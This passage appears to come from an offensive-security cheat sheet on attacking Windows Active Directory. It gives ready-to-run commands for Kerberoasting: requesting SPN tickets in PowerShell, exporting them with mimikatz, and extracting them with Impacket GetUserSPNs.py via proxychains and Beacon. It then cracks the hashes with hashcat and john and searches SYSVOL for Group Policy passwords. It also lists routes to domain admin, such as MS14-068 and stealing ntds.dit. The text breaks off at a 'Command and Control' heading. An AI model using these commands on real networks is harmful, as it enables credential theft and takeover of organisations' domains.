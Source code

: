 https://github.com/nidem/kerberoast
https://room362.com/post/2016/kerberoast-pt1/
https://room362.com/post/2016/kerberoast-pt2/
https://room362.com/post/2016/kerberoast-pt3/

```
    Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/host.domain.com"
```

Use mimikatz to export SPN Tikets once requested (Generates one file per ticket unless base64 option is used)

```
    mimkatz kerberos::list /export
    Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'
```

Impacket method of extracting SPN tickets and output hashes in the correct format for John via Proxychains and Beacon (Preferred)

```
    proxychains python ./GetUserSPNs.py -request domain.com/domainuser:password -dc-ip <domain controller IP> -outputfile <out.dump>
```

Cracking the hashes

```
    ./hashcat -m 13100 -a 0 spns.dump ./wordlists/* -r rules/dive.rule

    ./john --format=krb5tgs spns.dump --wordlist=
```

### Domain Admin Privesc Methods

https://adsecurity.org/?p=2362

1.  Passwords in SYSVOL & Group Policy Preferences

    ```
    findstr /S cpassword %logonserver%\sysvol\*.xml
    ```

    or use Get-GPPPasswords.ps1 from PowerSploit

2.  Exploit the MS14-068 Kerberos Vulnerability on a Domain Controller Missing the Patch
3.  Kerberos TGS Service Ticket Offline Cracking (Kerberoast)
4.  The Credential Theft Shuffle
5.  Gain access to AD Database file (ntds.dit)
    - Backup locations (backup server storage, media, and/or network shares)
    - Find the NTDS.dit file staged on member servers prior to promoting to Domain Controllers.
    - With admin rights to virtualization host, a virtual DC can be cloned and the associated data copied offline.

## Command and Control

Simple TCP Port Redirection
